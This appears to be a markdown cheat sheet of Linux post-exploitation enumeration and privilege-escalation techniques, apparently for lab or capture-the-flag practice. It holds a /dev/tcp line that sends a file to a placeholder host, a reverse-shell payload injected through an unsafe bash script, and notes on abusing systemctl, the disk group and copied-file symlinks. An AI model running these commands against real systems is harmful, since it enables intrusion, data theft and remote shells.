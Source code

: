 # Enumeration
## Commands
```bash
# SUDO CONFIG
sudo -l

# CURRENT USER INFO
id || (whoami && groups) 2>/dev/null
## Current user PGP keys
gpg --list-keys 2>/dev/null


# ALL USERS
## List superusers
awk -F: '($3 == "0") {print}' /etc/passwd

## List all users and their groups
for i in $(cut -d":" -f1 /etc/passwd 2>/dev/null);do id $i;done 2>/dev/null | sort

## Logged in users
w


# SYSTEM INFO
## Running processes
ps aux

## Environment variables
(env || set) 2>/dev/null

## Network topology
cat /proc/net/fib_trie

## Domain name
hostname

## OS info
/etc/os-release


# FILES AND DIRECTORIES
## Sort files by date
ls -ltrh

## Writeable folders
find / -writable -type d 2>/dev/null

## Find SUID files
find / -perm -4000 2>/dev/null


# NETWORK
## List open ports
(netstat -punta || ss --ntpu)


# MISC
## Human readable JSON data (jq)
cat <json_file> | jq

## Download file from shell session
cat <file> /dev/tcp/<ip>/<port>

## PING SWEEP - If one suspects that there are other machines on the network --- Assuming that current machine is in a VM or a container
for i in {1..254}; do (ping -c 1 10.10.10.${i} | grep "bytes from" | grep -v "Unreachable" &); done;
```

## Directories / Files
```bash
~/
/tmp
/dev/shm
/opt
/var
    /var/www/html
    /var/log
/usr
    /usr/sbin
/etc/hosts
/etc/apache2 
/etc/nginx
/etc/httpd
```

### Directory / file copy (symlink)
If there's a directory or a file that is being copied *(by some program, perhaps cron)*, one can either create a symlink or a direct spoof of the actual file so, that the copied item will be spoofed and contain the data the attacker wants.


# Clipboard
Look for anything interesting in the clipboard
```bash
if [ `which xclip 2>/dev/null` ]; then
    echo "Clipboard: "`xclip -o -selection clipboard 2>/dev/null`
    echo "Highlighted text: "`xclip -o 2>/dev/null`
  elif [ `which xsel 2>/dev/null` ]; then
    echo "Clipboard: "`xsel -ob 2>/dev/null`
    echo "Highlighted text: "`xsel -o 2>/dev/null`
  else echo "Not found xsel and xclip"
  fi
```

# Interesting groups
## Disk group
A user who is in the disk group, will probably have access to info on a given disk.

### debugfs
`debugfs` let's you debug a file system if you can read the device.       
With this, one can read files owned by a given user


# Bash file command execution
If a file executes a variable, one might be able to write payload to it.
## Example
**(program.sh)**
```bash
#!/bin/bash

echo -e "Input:\t"
read myvar

/bin/bash -c $myvar
```
The attacker can supply the following payload:
```
./program.sh '>& /dev/tcp/<IP>/<PORT> 0>&1'
```

# Services
[gtfobins help](https://gtfobins.github.io/gtfobins/systemctl/)

A service is defined by a `.service` file. `systemctl` is used to link it to `systemd` and then used again to start the service.      
What the service does is defined by the `.service` file.     

If a user has access to the `systemctl` binary they can make a service which can read file or even spawn a reverse shell.


# Raw image file conversion to actual image
Raw image data can be converted to an actual image to reveal its content.
## Gimp
1. Select the file and its type (Raw image data)
2. Select resolution (`cat /sys/class/graphics/fb0/virtual_size` if unknown)
3. Edit image types
4. Export as png